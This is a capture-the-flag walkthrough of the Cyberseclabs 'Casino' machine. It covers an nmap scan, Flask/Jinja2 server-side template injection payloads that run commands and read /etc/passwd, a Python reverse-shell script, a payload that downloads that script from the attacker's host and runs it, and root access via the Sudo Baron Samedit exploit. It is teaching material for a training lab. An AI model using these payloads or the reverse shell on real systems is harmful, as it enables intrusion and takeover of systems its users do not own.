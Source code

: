 In this walkthrough, we'll go over one of the machines from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Casino IP](casinoIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.7
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-28 20:57 EDT
Nmap scan report for 172.31.3.7
Host is up (0.023s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:5c:51:eb:90:a2:79:74:42:3b:af:8b:64:66:2f:a2 (RSA)
|   256 d5:76:0c:92:ef:e1:83:9e:37:63:46:00:eb:9d:7b:05 (ECDSA)
|_  256 cd:4f:f8:48:9a:c7:38:85:a2:05:9c:3b:44:20:01:8c (ED25519)
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: River - Index
9000/tcp filtered cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds

```
It looks like a casino platform is being served on port 80:

![Casino Index Page](casino-index-html.png)

While browsing, on the team page, we can see that one of the team members is a Flask developer:

![Casino Team Page](casino-teams.png)

After seeing this, I can check for a potential SSTI (Server Side Template Injection) vulnerability. I followed the process from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
Now, in the search box we can do the following tests:

1. `${7*7}` ![Test1](casino-SSTI-test-1.png)
2. `{{7*7}}` ![Test2](casino-SSTI-test-2.png)
3. `{{7*'7'}}` ![Test3](casino-SSTI-test-3.png)
4. `{{ self._TemplateReference\__context.cycler\.__init\__.\__globals\__.os.popen('id').read() }}` ![Test4](casino-SSTI-id.png)
5. `{{ get_flashed_messages.\__globals\__.\__builtins\__.open("/etc/passwd").read() }}` ![Test5](casino-SSTI-passwd.png)
6. `{{ self._TemplateReference\__context.namespace.\__init\__.\__globals\__.os.popen('ls /home').read() }}` ![Test6](casino-SSTI-ls.png)
7. `{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('which python3').read() }}` 
    ![Test7](casino-SSTI-python3.png)
    
From, our strategy could be creating a Python file with a reverse shell and upload it to the server, then run it within the same script. The Python file looks like this and we save it as ***revshell.txt***:
```python
#!/usr/bin/python3

import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("YourIPAddress", 5555)) # Don't forget to put your IP Address here.
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Let's start a Python server to host this file with `sudo python3 -m http.server 80`
Now, by using the following script we can upload and run the Python file `{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('wget http://10.10.0.18/revshell.txt -O /tmp/revshell.py;python3 /tmp/revshell.py').read() }}`

![Casino Foothold](casino-SSTI-revshell.png)

In terms of the privilege escalation, I look at the sudo version and OS distribution:

![Casino OS/Sudo Version](casino-OS-release.png)

At this point, we can check if this machine is vulnerable to ***CVE-2021-3156 (Sudo Baron Samedit)*** vulnerability. We can use the following repo ![Sudo Baron Samedit](https://github.com/worawit/CVE-2021-3156)
From this repo, we can use ***exploit_nss.py*** to see if we can get a root shell:

![Casino Root](casino-root.png)

And we successfully gain the root level privileges.
I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
